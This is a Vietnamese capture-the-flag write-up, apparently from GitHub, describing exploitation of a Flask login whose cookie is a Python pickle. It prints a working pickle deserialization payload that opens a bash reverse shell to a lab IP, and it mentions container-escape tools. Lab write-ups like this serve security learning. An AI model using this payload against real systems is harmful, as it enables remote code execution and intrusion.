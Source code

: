ss -lntp | grep 5000
→ Kiểm tra xem có process nào lắng nghe trên cổng 5000 không; kết quả cho thấy socat đang lắng nghe (với PID).

curl -I localhost:5000
→ Gửi HEAD request tới local:5000; vì có socat forward, bạn nhận được header từ HTTP server chạy tại 192.168.100.12:5000 (vd. Werkzeug/Flask).

<img width="1275" height="756" alt="image" src="https://github.com/user-attachments/assets/5709680c-8766-418f-a25c-38967837d0f1" />

thật lạ sau khi tôi thấy 1 trang đăng nhập đơn giản chấp nhận bất kỳ tên người dùng và mật khẩu nào và chuyển hướng đến bảng thông tin hiển thị lại cho người dùng , tới bước này tôi đã nhận được sự hỗ trợ của bạn bè đặc biệt là chatgpt 😄

<img width="1078" height="590" alt="image" src="https://github.com/user-attachments/assets/16281fbf-c07e-44b6-8dfa-5bb8b7ad3ab7" />

có vẻ như đây không phải cookie dạng JWT hay PHP-serialized — đây là một object được pickle bởi Python (protocol 4) 

Dữ liệu chứa các khóa "user" và "revenue" với giá trị "admin" và "85000"

tôi đã thử tệp shell này 

import pickle
import os

class RCE:
    def __reduce__(self):
        return (os.system, ('bash -c "bash -i >& /dev/tcp/10.14.108.226/445 0>&1"',))

# build pickle payload
payload = pickle.dumps(RCE())

print("[*] Malicious cookie value:")
# get the hex value
print(payload.hex())

<img width="762" height="228" alt="image" src="https://github.com/user-attachments/assets/c8256bda-9402-4d07-87ed-3835196947c5" />

ở 1 terminal khác tôi chạy netcat lắng nghe trên cổng là 445 

<img width="676" height="314" alt="image" src="https://github.com/user-attachments/assets/da6aebad-04cd-4809-9d8f-9a4d0938c093" />

<img width="409" height="225" alt="image" src="https://github.com/user-attachments/assets/0b21274e-6f7e-42ff-8207-c6c35086b02b" />

như vậy là tôi đã có được lá cờ đầu tiên 

nhưng bây giờ tôi đang ở container khác 

linpeas.sh và deepce.sh là cdk-team/cdk một số công cụ được sử dụng nhiều nhất để liệt kê và thoát khỏi container.

đây là bài viết mô tả cuộc tấn công này https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/linux-capabilities.html#cap_sys_module:~:text=abusing%20this%20privilege.-,Example%20with%20environment%20(Docker%20breakout),-You%20can%20check
